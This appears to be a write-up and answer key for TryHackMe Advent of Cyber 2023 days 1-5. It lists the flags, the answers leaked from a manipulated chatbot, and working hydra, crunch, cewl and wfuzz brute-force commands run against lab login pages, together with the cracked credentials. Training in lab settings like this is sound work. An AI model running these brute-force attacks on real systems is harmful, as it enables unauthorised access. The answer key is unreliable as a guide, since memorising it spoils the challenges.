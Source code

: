 # [Day 1] Machine learning Chatbot, tell me, if you're really safe?
+ What is McGreedy's personal email address? `t.mcgreedy@antarcticrafts.thm`
+ What is the password for the IT server room door? `BtY2S02`
+ What is the name of McGreedy's secret project? `Purple Snow`
+ If you enjoyed this room, we invite you to join our Discord server for ongoing support, exclusive tips, and a community of peers to enhance your Advent of Cyber experience `No answer needed`

# [Day 2] Log analysis O Data, All Ye Faithful
+ Open the notebook "Workbook" located in the directory "4_Capstone" on the VM. Use what you have learned today to analyse the packet capture. `No Answer Needed`
```python
import pandas as pd
df = pd.read_csv('network_traffic.csv')
df.count() 
df.groupby(['Source']).size() 
df.groupby(['Protocol']).size()
```
+ How many packets were captured (looking at the PacketNumber)? `100`
+ What IP address sent the most amount of traffic during the packet capture? `10.10.1.4`
+ What was the most frequent protocol? `ICMP`
+ If you enjoyed today's task, check out the Intro to Log Analysis room. `No Answer Needed`

# [Day 3] Brute-forcing Hydra is Coming to Town
+ Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag? `THM{pin-code-brute-force}`
    - create list of password using crunch
    ```bash
    crunch 3 3 0123456789ABCDEF -o 3digits.txt
    Crunch will now generate the following amount of data: 16384 bytes
    0 MB
    0 GB
    0 TB
    0 PB
    Crunch will now generate the following number of lines: 4096 

    crunch: 100% completed generating output
    ```
    - brute - force the machine
    ```bash
    hydra -l '' -P 3digits.txt -f -v 10.10.215.76 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
    [8000][http-post-form] host: 10.10.215.76   password: 6F5
    [STATUS] attack finished for 10.10.215.76 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-04 02:15:53
    ```

+ If you have enjoyed this room please check out the Password Attacks room. `No Answer Needed`


# Task 10  [Day 4] Brute-forcing Baby, it's CeWLd outside
+ Creating Wordlist 
    ```bash 
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ cewl -d 2 -m 5 -w passwords.txt http://10.10.121.234 --with-numbers
    CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ cewl -d 0 -m 5 -w usernames.txt http://10.10.121.234/team.php --lowercase
    CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.121.234/login.php -d "username=FUZZ&password=FUZ2Z"
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.121.234/login.php
    Total requests: 9361

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    000006317:   302        118 L    297 W      4442 Ch     "isaias - Happiness"
    ```


+ What is the correct username and password combination? Format username:password `isaias:Happiness`
+ What is the flag? `THM{m3rrY4nt4rct1crAft$}`
+ If you enjoyed this task, feel free to check out the Web Enumeration room. `No Answer Needed`

# Task 11  [Day 5] Reverse engineering A Christmas DOScovery: Tapes of Yule-tide Past
+ How large (in bytes) is the AC2023.BAK file? `12,704`
+ What is the name of the backup program? `BackupMaster3000`
+ What should the correct bytes be in the backup's file signature to restore the backup properly? `41 43`
+ What is the flag after restoring the backup successfully?`THM{0LD_5CH00L_C00L_d00D}`
+ What you've done is a simple form of reverse engineering, but the topic has more than just this. If you are interested in learning more, we recommend checking out our x64 Assembly Crash Course room, which offers a comprehensive guide to reverse engineering at the lowest level. `No Answer Needed`
